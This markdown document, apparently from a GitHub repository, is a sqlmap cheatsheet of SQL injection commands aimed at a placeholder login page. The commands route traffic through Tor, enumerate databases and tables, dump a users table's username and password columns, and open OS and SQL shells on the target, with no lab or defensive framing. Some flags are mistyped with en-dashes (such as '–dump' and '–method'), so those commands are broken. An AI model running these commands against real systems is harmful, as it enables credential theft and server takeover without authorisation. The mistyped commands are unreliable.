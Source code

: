 # sqlmap cheatsheet

## Wizard
```sqlmap --wizard```

## Easy Scanning option
```sqlmap -u "http://testsite.com/login.php"```

## Scanning by using tor
```sqlmap -u "http://testsite.com/login.php" --tor --tor-type=SOCKS5```

## Scanning by manually setting the return time
```sqlmap -u "http://testsite.com/login.php" --time-sec 15```

## List all databases at the site
```sqlmap -u "http://testsite.com/login.php" --dbs```

## List all tables in a specific database
```sqlmap -u "http://testsite.com/login.php" -D site_db --tables```

## Dump the contents of a DB table
```sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump```

## List all columns in a table
```sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns```

## Dump only selected columns
```sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump```

## Dump a table from a database when you have admin credentials
```sqlmap -u "http://testsite.com/login.php" –method "POST" –data "username=admin&password=admin&submit=Submit" -D site_db -T users –dump```

## Get OS Shell
```sqlmap --dbms=mysql -u "http://testsite.com/login.php" --os-shell```

## Get SQL Shell
```sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell```